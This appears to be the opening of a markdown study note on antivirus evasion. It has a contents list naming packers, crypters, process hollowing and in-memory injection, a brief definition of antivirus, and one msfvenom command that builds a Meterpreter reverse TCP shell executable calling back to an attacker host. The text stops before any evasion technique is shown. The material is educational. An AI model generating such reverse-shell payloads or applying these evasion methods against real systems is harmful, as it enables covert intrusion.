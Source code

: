 # Content

- [Content](#content)
  - [What is Antivirus Software](#what-is-antivirus-software)
  - [Methods of Detecting Malicious Code](#methods-of-detecting-malicious-code)
    - [Detection Methods](#detection-methods)
  - [Bypassing Antivirus Detection](#bypassing-antivirus-detection)
    - [On-Disk Evasion](#on-disk-evasion)
      - [Packers](#packers)
      - [Obfuscators](#obfuscators)
      - [Crypters](#crypters)
      - [Software Protectors](#software-protectors)
    - [In-Memory Evasion](#in-memory-evasion)
      - [Remote Process Memory Injection](#remote-process-memory-injection)
      - [Reflective DLL Injection](#reflective-dll-injection)
      - [Process Hollowing](#process-hollowing)
      - [Inline hooking](#inline-hooking)
    - [AV Evasion: Practical Example](#av-evasion-practical-example)
      - [PowerShell In-Memory Injection](#powershell-in-memory-injection)

  
## What is Antivirus Software

- Antivirus (AV) is type of application designed to prevent, detect, and remove malicious 
software.
- It was originally designed to simply remove computer viruses. However, with the 
development of other types of malware, antivirus software now typically includes additional 
protections such as firewalls, website scanners, and more

## Methods of Detecting Malicious Code

- In order to demonstrate the effectiveness of various antivirus products, we will start by scanning a popular Meterpreter payload. 
- Using msfvenom, we will generate a standard Portable Executable file containing our payload, in this case a simple TCP reverse shell.
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.50.156 LPORT=4444 -f exe > binary.exe
  ```
  ![Picture](../17.%20Antivirus%20Evasion/Image/1.png)
- Next we will use the VirusTotal website to scan our binary. VirusTotal is a free online service that analyzes files and URLs for viruses, worms, trojans, and other kinds of malicious content.